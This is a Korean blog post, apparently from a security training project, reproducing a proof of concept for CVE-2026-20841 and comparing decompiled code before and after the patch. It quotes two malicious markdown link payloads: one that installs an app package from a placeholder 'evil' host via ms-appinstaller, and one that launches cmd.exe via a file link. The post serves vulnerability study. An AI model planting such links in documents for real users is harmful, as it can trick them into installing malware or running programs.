

## General Industry 1人1P (4)


프로젝트 4번째 과정, PoC 재연이다. 지난 번에 구축했던 가상 환경에서 PoC를 재연하고 그 원인까지 분석하는 것을 목표로 한다.

## PoC

::github{repo="BTtea/CVE-2026-20841-PoC"}

위 레포지토리는 CVE-2026-20841의 PoC 레포지토리이다. 이번 프로젝트에서는 이 레포지토리를 참고하였다.

```md
# install file
[PoC](ms-appinstaller://?source=https://evil/xxx.appx)

# run executable file
[PoC](file://C:/windows/system32/cmd.exe)
```

사실 직접 보면 알다시피 딱히 설명해야 한다거나 어려울만한 내용은 없다. 하이퍼링크 기능을 사용한 평범한 마크다운 파일일 뿐이다.
하지만 여기서 주목해야 할 것은 저 링크를 눌렀을 때 프로그램이 어떻게 동작하는가이다. 



위 사진은 취약점이 패치된 현재 기준, 링크를 클릭했을 때 나타나는 경고창이다. PoC의 두 번째를 보면 `file://C:/windows/system32/cmd.exe`를 지정하고 있는 것을 볼 수 있다. 만약 링크를 클릭했을 때 경고가 발생하지 않는다면 발생하는 일이 무엇일까? 사용자가 링크를 클릭하자마자 시스템 프로그램과 같은 민감한 부분을 실행하도록 유도할 수 있을 것이고, 이는 악성코드 설치와 같은 체인으로 이어질 수 있다.

:::note
가상 환경에서 직접 PoC를 실행하여 경고 창이 뜨지 않고 실행되는 것도 해보았으나 스크린샷을 촬영하기 전에 가상환경이 오류로 고장나버렸다.
:::

## Root Cause

```C++
case 4:
    v31 = *((_QWORD *)Block + 10);
    v2 = sub_14005C0F0(Block, *(_QWORD *)(v31 + 40) + 80LL);

    // {중략}

    *((_QWORD *)Block + 22) = L"open";
    *((_QWORD *)Block + 23) = v16;
    ShellExecuteExW((SHELLEXECUTEINFOW *)(Block + 160));
```
위 코드는 패치 전 코드로 하이퍼링크 클릭 시 실행되는 코드이다. `ShellExecuteExW` 함수를 통해 명령어를 실행하는데 위 코드 및 중략된 코드를 포함하여 어떠한 곳에도 그 링크에 대해 검증의 과정을 거치는 내용이 없는 것을 알 수 있다.

```C++
_BOOL8 sub_1400E1310(__int64 a1, __int64 *a2)
{
    sub_140008ED0(&v21);

    v5 = (char *)&v21;
    if ( v23 > 7 )
        v5 = (char *)v21;
    v18 = v5;

    if ( (unsigned __int8)sub_14010B7E0(&v18) )
    {
        v6 = 1;
    }
    else
    {
        v6 = (sub_1400A8170(v11, &v13) == 1);
    }
    return v6;
}
```

이 코드는 패치 이후의 코드로 중간에 `if` 조건문이 추가된 것을 볼 수 있다. `sub_14010B7E0`의 실행을 통해 검증을 거치고 함수의 리턴값에 따라 분기가 나뉘는 것을 볼 수 있다.

## Comment

원래 재연하는 장면에 대한 스크린샷과 영상을 추가하고 싶었으나 저장 전에 가상 환경이 고장나버려 불가능하게 되었다. [78ResearchLab 블로그](https://blog.78researchlab.com/306db461-3e5b-80bc-b90e-e2dcab1d9c2d#306db461-3e5b-807a-b9f9-fd6d3cc6aa18) 해당 블로그 글에 정말 자세하고 깔끔하게 정리되어 있으며 영상도 포함되어 있으니 궁금하다면 참고하는 것도 좋을 듯하다.